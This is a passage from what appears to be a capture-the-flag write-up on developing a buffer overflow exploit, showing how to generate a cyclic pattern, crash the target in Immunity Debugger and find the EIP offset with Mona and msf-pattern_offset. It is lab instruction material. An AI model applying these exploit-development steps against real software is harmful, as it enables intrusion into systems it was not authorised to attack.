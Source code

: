 ```bash
msf-pattern_create -l 200
```
Then we use the random pattern created as the payload on the code above. Reload the application on Immunity and ensure it's running before launching the script. It should crash the application again.

We then use Mona with the command below to get the offset, `146` in this case.

```
!mona findmsp -distance 200
```
![](/assets/img/images/gatekeeper/offset.png)

Alternatively, you can use *msf* command below to get the same. For this, you will also need the EIP value from the crashed application:

![](/assets/img/images/gatekeeper/offset_msf.png)

```
msf-pattern_offset -l 200 -q 39654138
```
![](/assets/img/images/gatekeeper/msf_offset_result.png)
